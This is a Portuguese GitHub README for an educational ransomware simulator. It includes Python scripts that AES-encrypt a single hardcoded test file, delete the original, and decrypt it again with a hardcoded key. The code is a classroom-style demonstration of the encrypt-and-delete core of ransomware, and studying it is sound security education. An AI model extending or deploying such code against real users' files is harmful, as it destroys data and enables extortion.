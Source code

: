 ## 🔒 Simulador de Ransomware em Python:
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

## 📌 Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

## 📌 Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

## 🚀 Tecnologias Utilizadas
Python 3,
Kali Linux,
**Biblioteca **pyaes

## 📥 Instalação e Execução
🔹 1. Clonar o repositório
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter
python encrypter.py
Isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter
python decrypter.py
Isso removerá o arquivo criptografado e restaurará teste.txt.

## 📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
